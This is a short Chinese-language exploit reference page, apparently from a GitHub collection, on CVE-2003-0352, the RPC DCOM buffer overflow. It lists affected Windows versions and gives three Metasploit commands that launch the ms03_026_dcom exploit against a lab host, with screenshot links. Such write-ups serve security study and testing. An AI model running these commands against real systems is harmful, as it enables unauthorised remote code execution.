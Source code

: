 ###  CVE-2003-0352

#### 描述

某些RPC的DCOM接口中的缓冲区溢出使远程攻击者可以通过格式错误的消息执行任意代码

#### 影响版本

| Product            | CPU Architecture | Version | Update | Tested             |
| ------------------ | ---------------- | ------- | ------ | ------------------ |
| Windows 2000       |                  |         |        |                    |
| Windows 2000       |                  |         | SP1    |                    |
| Windows 2000       |                  |         | SP2    |                    |
| Windows 2000       |                  |         | SP3    |                    |
| Windows 2000       |                  |         | SP4    | :heavy_check_mark: |
| Windows Server2003 |                  | R2      |        |                    |
| Windows Nt         |                  |         | SP1    |                    |
| Windows Nt         |                  | 4.0     | SP2    |                    |
| Windows Nt         |                  | 4.0     | SP3    |                    |
| Windows Nt         |                  | 4.0     | SP4    |                    |
| Windows Nt         |                  | 4.0     | SP5    |                    |
| Windows Nt         |                  | 4.0     | Sp6a   |                    |
| Windows Nt         |                  | 4.0     | SP6    |                    |
| Windows Xp         |                  |         | SP1    |                    |
| Windows Xp         |                  |         | Gold   |                    |

#### 利用方式

测试系统windows 2000 sp4 x86

```
use exploit/windows/dcerpc/ms03_026_dcom
set RHOST 192.168.1.17
run
```

![image-20200823200752021](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2003-0352_win2000_x86_msf.png?raw=true)

查看系统信息

![CVE-2003-0352_win2000_x86_msf2](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2003-0352_win2000_x86_msf2.png?raw=true)

